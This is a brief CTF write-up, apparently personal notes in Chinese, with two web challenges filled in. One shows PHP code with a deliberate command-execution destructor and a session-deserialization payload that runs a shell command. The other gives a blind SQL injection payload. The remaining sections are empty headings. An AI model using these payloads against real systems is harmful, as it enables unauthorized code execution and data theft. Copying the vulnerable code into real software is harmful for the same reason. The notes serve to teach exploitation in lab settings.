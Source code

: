 
# web
### ser2
#session反序列化
- index.php
```php
<?php  
show_source("index.php");  
session_start();  
class Exec{  
    public $commond;  
    function __destruct(){      system($this->commond);  
    }  
  }  
$str = new Exec();  
?>
```

- phpinfo.php
```php
<?php  
error_reporting(0);  
show_source("phpinfo.php");  
ini_set('session.serialize_handler','php_serialize');  
session_start();  
$_SESSION['aaa'] = $_GET['aaa'];  
phpinfo();  
?>
```

*payload*
`/phpinfo.php?aaa=|O:4:"Exec":1:{s:7:"commond";s:16:"ls /var/www/html";}`
发送后访问`index.php` 即可

![!img](https://img.php.cn/upload/article/000/000/067/be69afd137ffe0e5382767c78090c8c8-0.png)



### web2
#sql 

```
username=admin' %26%26(ascii(mid(user()from(2)for(1)))=111)#&password=admi&submit=1
```
# reverse

# pwn

# crypto

# Misc



# pentest

### 

### 正向代理



---
## *相关wp*




2023-05-28   00:41
